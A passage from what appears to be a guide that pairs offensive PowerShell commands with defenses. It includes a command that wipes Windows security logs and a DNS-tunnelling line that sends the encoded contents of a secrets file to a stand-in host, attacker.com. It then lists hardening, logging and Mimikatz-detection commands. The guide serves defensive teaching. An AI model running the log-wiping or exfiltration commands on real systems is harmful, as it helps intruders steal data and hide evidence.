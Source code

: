 
#### **9. Defense Evasion**  
**Clear Security Logs**  
```powershell  
Clear-EventLog -LogName Security,Application,System  
```  
- **Purpose**: Erases forensic evidence.  
- **Defense**: Forward logs to a **SIEM** (e.g., Splunk, Elasticsearch).  

---  

#### **10. Data Exfiltration**  
**Exfiltrate via DNS**  
```powershell  
$data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\secrets.txt"));  
Resolve-DnsName -Name "$data.attacker.com" -Type A  
```  
- **Purpose**: Bypass network monitoring using DNS tunneling.  
- **Defense**: Block abnormal DNS queries and inspect payloads.  

---  

### **Defensive PowerShell Commands**  
#### **1. Harden PowerShell**  
```powershell  
Set-ExecutionPolicy Restricted  
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"  
```  
- **Purpose**: Blocks script execution and restricts unsafe language features.  

#### **2. Enable Advanced Logging**  
```powershell  
Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\" -Name "ScriptBlockLogging" -Value 1  
```  
- **Purpose**: Logs all executed script blocks to `Microsoft-Windows-PowerShell/Operational`.  

#### **3. Audit Suspicious Activity**  
```powershell  
Get-WinEvent -LogName "Security" | Where-Object { $_.Id -eq 4688 -and $_.Message -like "*Invoke-Mimikatz*" }  
```  
- **Purpose**: Detects process creation events tied to Mimikatz.  

#### **4. Disable Dangerous Services**  
```powershell  
Stop-Service -Name WinRM -Force  
Set-Service -Name WinRM -StartupType Disabled  
```  
- **Purpose**: Disables remote management to block lateral movement.  

---  

Here’s a **curated list of powerful PowerShell commands** (common, rare, and custom) paired with **practical defenses** to mitigate these threats. These commands are used in real-world attacks and penetration testing:

---